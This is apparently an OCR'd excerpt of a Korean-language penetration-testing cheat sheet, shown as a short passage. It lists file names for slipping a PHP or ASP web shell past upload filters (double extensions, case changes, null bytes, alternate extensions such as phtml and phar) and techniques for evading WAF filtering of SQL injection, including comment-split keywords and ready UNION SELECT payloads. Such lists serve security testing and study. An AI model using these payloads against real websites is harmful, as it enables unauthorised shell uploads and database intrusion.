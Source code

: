 ```bash
# 이중 확장자
shell.php.jpg
shell.php.png
shell.php.gif
shell.jpg.php
shell.png.php

# 대소문자 변경
shell.PHP
shell.pHp
shell.PhP
shell.ASP
shell.aSp

# Null byte (구형 시스템)
shell.php%00.jpg
shell.php\x00.jpg

# 특수 확장자
shell.phtml
shell.php3
shell.php4
shell.php5
shell.phps
shell.phar
```

---

## 🔄 우회 기법들

### 🛡️ WAF/Filter 우회 기법

```bash
# SQL Injection WAF 우회
# 공백 우회
/**/
%20
%09
%0a
%0b
%0c
%0d
%a0
+

# 키워드 우회
UNION → UnIoN, uNiOn, /**/UNION/**/, UN/**/ION
SELECT → SeLeCt, /**/SELECT/**/, SE/**/LECT
OR → ||, OR/**/, O/**/R
AND → &&, AND/**/, A/**/ND

# 대소문자 섞기
' UnIoN SeLeCt 1,2,3--
' uNiOn sElEcT 1,2,3--

# 주석 활용
'/**/UNION/**/SELECT/**/1,2,3--
'/*!UNION*//*!SELECT*/1,2,3--

# 함수 우회
substring → substr, mid
ascii → ord
```